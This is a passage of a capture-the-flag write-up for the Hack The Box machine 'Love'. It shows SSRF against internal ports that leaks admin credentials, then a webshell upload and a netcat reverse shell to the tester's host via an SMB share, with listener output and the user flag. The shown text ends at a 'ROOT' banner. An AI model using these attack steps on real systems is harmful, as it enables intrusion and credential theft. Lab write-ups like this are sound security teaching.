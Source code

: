 Nothing to be found here.. trying the other tables result in the same, empty, output.
The admin hash we found earlier is a 'bcrypt $2*$, Blowfish (Unix)' (-m3200) hash, and unfortunately it's a pain to crack.


3. Instead, we shift focus to the vhost, staging.love.htb. Directly we find an interesting scanner function at
http://staging.love.htb/beta.php where we can enter urls to scan. Trying the usual reverse shells only prints them out,
so it feels more like it's just printing the file (like a cURL), rather then executing them in a sandbox environment.

So lets try to read internal files from the victim box.

Scan 'http://127.0.0.1/server-info' and we find all the interesting web info, among other - the overlooked web port 5000.
Scan 'http://127.0.0.1:5000' this time and we find creds!

  'Vote Admin Creds admin: @LoveIsInTheAir!!!! '


4. Login with admin:@LoveIsInTheAir!!!! on http://love.htb/admin/index.php and we find the admin's name - Neovic Devierte.
We cant do much once logged in, however we can upload a profile image. There don't seem to be any health checks on the uploaded
file, meaning we can upload whatever we want.

Upload a webshell, and from there trigger a reverse shell using smbserver.py and nc64.exe.

  a. Upload webshell.php and visit: http://love.htb/images/webshell.php
  b. Start smb in a dir containing nc64.exe:
      [root:/srv/pub-share]# smbserver.py share .
  c. Execute the reverse connection:
      //10.10.14.51/share/nc64.exe 10.10.14.51 4488 -e powershell

      [root:/git/htb/love]# rlwrap nc -lvnp 4488                                                                                        (master✱)
        listening on [any] 4488 ...
        connect to [10.10.14.51] from (UNKNOWN) [10.129.128.40] 64259
        Windows PowerShell
        Copyright (C) Microsoft Corporation. All rights reserved.

        Try the new cross-platform PowerShell https://aka.ms/pscore6

        PS C:\xampp\htdocs\omrs\images> whoami
          love\phoebe


4. Grab user.txt

  PS C:\Users\Phoebe\Desktop> type user.txt
    3f7eb90595f1bd4bfc90f71350954198

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝

